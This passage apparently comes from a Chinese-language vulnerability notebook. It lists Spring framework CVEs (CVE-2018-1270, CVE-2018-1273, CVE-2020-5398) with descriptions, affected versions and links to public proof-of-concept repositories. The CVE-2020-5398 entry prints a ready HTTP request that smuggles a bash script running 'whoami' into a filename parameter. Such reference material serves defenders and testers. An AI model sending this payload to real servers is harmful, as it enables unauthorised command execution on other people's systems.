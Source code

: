 **相关文章**
- [Spring Messaging 远程命令执行漏洞 (CVE-2018-1270) ](https://vulhub.org/#/environments/spring/CVE-2018-1270/)

---

## CVE-2018-1273 Spring Data Commons RCE 远程命令执行漏洞

**描述**

Pivotal Spring Data Commons 和 Spring Data REST 都是美国 Pivotal Software 公司的产品。Pivotal Spring Data Commons 是一个为数据访问提供基于 Spring 模型的项目。Spring Data REST 是一个建立在 Spring Data 存储库之上的用于分析应用程序的域模型并公开超媒体驱动的 HTTP 资源。

Pivotal Spring Data Commons 和 Spring Data REST 中存在安全漏洞。远程攻击者可利用该漏洞执行代码。以下产品和版本受到影响：Spring Data Commons 1.13 版本至 1.13.10 版本，2.0 版本至 2.0.5 版本及一些已不再支持的老版本；Spring Data REST 2.6 版本至 2.6.10 版本，3.0 版本至 3.0.5 版本及一些已不再支持的老版本。

**相关文章**
- [Spring Data Commons 远程命令执行漏洞 (CVE-2018-1273) ](https://vulhub.org/#/environments/spring/CVE-2018-1273/)

**影响版本**
- spring_data_commons < 1.12.10
- spring_data_commons 1.13 ~ 1.13.10
- spring_data_commons 2.0 ~ 2.0.5
- spring_data_rest < 2.5.10
- spring_data_rest 2.6 ~ 2.6.10
- spring_data_rest 3.0 ~ 3.0.5

**POC | Payload | exp**
- [wearearima/poc-cve-2018-1273](https://github.com/wearearima/poc-cve-2018-1273)
- [jas502n/cve-2018-1273](https://github.com/jas502n/cve-2018-1273)

---

## CVE-2020-5398 Spring MVC/Spring WebFlux header 导致的 RFD 攻击

**相关文章**
- [CVE-2020-5398 Spring MVC/Spring WebFlux header导致的RFD攻击风险通告](https://www.anquanke.com/post/id/197418)

**POC | Payload | exp**
```
GET /?filename=sample.sh%22%3B&contents=%23!%2Fbin%2Fbash%0Awhoami%27%20--dump-header%20- HTTP/1.1
Host: 192.168.248.129:8080
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
```

---
